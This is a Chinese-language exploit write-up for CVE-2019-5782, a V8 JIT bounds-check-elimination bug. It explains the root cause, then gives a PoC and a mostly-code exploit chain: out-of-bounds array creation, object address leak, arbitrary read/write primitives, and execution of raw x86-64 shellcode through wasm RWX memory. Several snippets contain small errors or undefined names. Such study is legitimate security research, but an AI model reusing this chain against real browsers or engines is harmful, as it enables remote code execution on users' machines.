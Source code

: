 ## CVE-2019-5782

这是一个v8数组越界的漏洞

### Root case

```
let x = arguments.length;

在对ArgumentsLength 节点的类型进行定义时，参数的最大个数规定为了65534，但是实际上我们是可以超过这个数字的。
Type const kArgumentsLengthType = Type::Range(0.0, Code::kMaxArguments, zone()); // kMaxArguments = 65534
```

在Load Elimination阶段将会生成ArgumentsLength节点，此时它的range为(0,65534)

在Load Elimination阶段右移节点仍为 Range(-32768, 32767)；（原因：此时还不会对Load处理，于是在第一次对NumberShiftRight进行range analysis的时候，会将其范围直接当做int32的最大和最小值。） 
在 Simplified Lowering 节点的 Type Propagation 阶段中，会调用 UpdateFeedbackType 函数（src/compiler/simplified-lowering.cc），该函数会再一次根据每个节点的输入值的类型，对 Feedback Type 进行更新，更新之后 SpeculativeNumberShiftRight的类型为Range(0,0)；

此时x的range为(0, 0)，它被作为数组的index，因为它（index）小于数组的length，所以会在VisitCheckBounds中消除CheckBounds节点。

```
void VisitCheckBounds(Node* node, SimplifiedLowering* lowering) {
    CheckParameters const& p = CheckParametersOf(node->op());
    Type const index_type = TypeOf(node->InputAt(0));
    Type const length_type = TypeOf(node->InputAt(1));
    if (length_type.Is(Type::Unsigned31())) {
      if (index_type.Is(Type::Integral32OrMinusZero())) {
        // Map -0 to 0, and the values in the [-2^31,-1] range to the
        // [2^31,2^32-1] range, which will be considered out-of-bounds
        // as well, because the {length_type} is limited to Unsigned31.
        VisitBinop(node, UseInfo::TruncatingWord32(),
                   MachineRepresentation::kWord32);
        if (lower()) {
          if (lowering->poisoning_level_ ==
                  PoisoningMitigationLevel::kDontPoison &&
              (index_type.IsNone() || length_type.IsNone() ||
               (index_type.Min() >= 0.0 &&
                index_type.Max() < length_type.Min()))) {
            // The bounds check is redundant if we already know that
            // the index is within the bounds of [0.0, length[.
            DeferReplacement(node, node->InputAt(0));
```

![](./1.png)


poc如下：
```
function fun(arg) {
  let x = arguments.length;
  a1 = new Array(0x10);
  a1[0] = 1.1;
  a2 = new Array(0x10);
  a2[0] = 1.1;
  a1[(x >> 16) * 21] = 1.39064994160909e-309;  // 0xffff00000000
  a1[(x >> 16) * 41] = 8.91238232205e-313;  // 0x2a00000000
}
var a1, a2;
var a3 = [1.1, 2.2];
a3.length = 0x11000;
a3.fill(3.3);
var a4 = [1.1];
for (let i = 0; i < 3; i++) fun(...a4);
%OptimizeFunctionOnNextCall(fun);
fun(...a4);
res = fun(...a3);
assertEquals(16, a2.length);
for (let i = 8; i < 32; i++) {
  assertEquals(undefined, a2[i]);
}
```

漏洞点是在对fun函数的优化过程中产生的，漏洞导致了我们可以对a1数组进行越界写，从而可以将内存中紧跟在a1.elements后的a2数组做任意写，在POC中对就是对a2的length进行了修改。

既然可以通过a1修改a2的length，那我们只要将其修改为一个极大的值，那么我们就可以获得一个越界的数组a2。

数组越界的漏洞还是很常见的，利用起来也不是很难：

利用思路：

- 获得越界数组
- leak object address
- arbitrary read and write
- 利用wasm执行shellcode


##### 1 获得越界数组

poc中是调用%OptimizeFunctionOnNextCall(fun);来使fun被优化，之后发现了ray-cp师傅的代替%OptimizeFunctionOnNextCall的方法，就是下面的循环：
```
function foo(arg)
{
    let idx = arguments.length;
    idx = idx>>16;
    idx = idx * 6;
    let arr = [1.1, 2.2, 3.3];
    arr[idx] = 1.74512933848984e-310;   // overwrite the length i2f(0x202000000000)
    return arr;
}

//%OptimizeFunctionOnNextCall(foo);
for(let i=0; i<MAX_ITERATIONS; i++)
{
    foo(i);
}
var b = new Array(1<<16);
oobArray = foo(...b);
```

##### 2 leak object
``` 
objArray = {m:i2f(0xdeadbeef), target:func};
dataBuf = new ArrayBuffer(0x200);

//object element offest
var ObjectIdx = 0;
for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0xdeadbeef) {
        ObjectIdx = i + 1;
        break;
    }
} 

//object bk offest
var ArrayBufIdx = 0;
for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0x200) {
        ArrayBufIdx = i + 1;
        break;
    }
}

```

可以定义一个对象：objArray，对象有两个属性,通过对target赋值为目标对象，我们通过遍历数组oobArr,找到target属性后，就可以通过oobArr[offest]的方式将它的地址泄漏出来。

```
function addrOf(obj)
{
    objArray.target=obj;
    return f2i(oobArray[ObjectIdx]) - 1;
}
```


##### 3 arbitrary read and write

```
// arbitrary read
function dataViewRead64(addr)
{
    oobArray[ArrayBufIdx]=i2f(addr);
    return f2i(dataView.getFloat64(0, true));
}

// arbitrary write
function dataViewWrite64(addr, value)
{
    oobArray[ArrayBufIdx] = i2f(addr);
    return dataView.setFloat64(0, f2i(value), True);
}
```

aar和aaw是通过控制bk来实现的，我们之前以经找到了bk在oobArray的偏移，我们就可以通过修改bk为想要读/写的地址，之后对该对象进行读取或写入即可达到目的。


##### 4 使用wasm getshell

通过wasm找到rwx的流程：

wasmInstance.exports.main -> shared_info -> data -> instance -> RWX (instance+0xe8)

```
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,
    127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,
    1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,
    0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,10,11]);
var func = wasmInstance.exports.main;

var wasmObjAddr = addrOf(func);
var sharedInfoAddr = dataViewRead64(wasmObjAddr+0x18)-1;
var wasmExportedFunctionDataAddr = dataViewRead64(sharedInfoAddr+8)-1;
var instanceAddr = dataViewRead64(wasmExportedFunctionDataAddr+0x10)-1;
var rwxAddr = dataViewRead64(instanceAddr+0xe8);

print("[+] wasm obj addr: 0x"+hex(wasmObjAddr));
print("[+] wasm shared info addr: 0x"+hex(sharedInfoAddr));
print("[+] wasmExportedFunctionData addr addr: 0x"+hex(wasmExportedFunctionDataAddr));
print("[+] instance  addr: 0x"+hex(instanceAddr));
print("[+] rwx addr: 0x"+hex(rwxAddr));

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
    105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
    94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];


dataViewWrite(rwxAddr, shellcode);


func();
```

